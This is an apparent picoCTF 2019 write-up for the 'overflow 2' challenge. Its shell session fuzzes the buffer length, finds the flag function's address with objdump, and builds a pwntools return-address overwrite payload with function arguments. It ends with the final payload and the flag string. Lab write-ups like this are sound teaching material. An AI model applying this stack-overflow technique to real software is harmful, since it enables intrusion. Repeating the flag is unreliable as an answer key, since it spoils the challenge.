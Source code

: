 # AUR

Solve
Hints
Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_3_8949c8847a75f33295e4bb6ea2896829 on the shell server. Source.
GDB can print the stack after you send arguments

***

2kofawsome@pico-2019-shell1:~$ cd /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ ls
flag.txt  vuln  vuln.c
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ ./vuln
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "print 'A'*276" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "print 'A'*180" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "print 'A'*184" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ objdump -t vuln | grep flag
080485e6 g     F .text  00000090              flag
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "from pwn import *;print('A'*180 + p32(0x080485e6) + 'CCCC' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCﾭ�
Segmentation fault (core dumped)
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "from pwn import *;print('A'*184 + p32(0x080485e6) + 'CCCC' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCﾭ�
Segmentation fault (core dumped)
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "from pwn import *;print('A'*188 + p32(0x080485e6) + 'CCCC' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCﾭ�
picoCTF{arg5_and_r3turn51b106031}Segmentation fault (core dumped)
2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$

Final payload:

python -c "from pwn import *;print('A'*188 + p32(0x080485e6) + 'CCCC' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln


Flag:

picoCTF{arg5_and_r3turn51b106031}

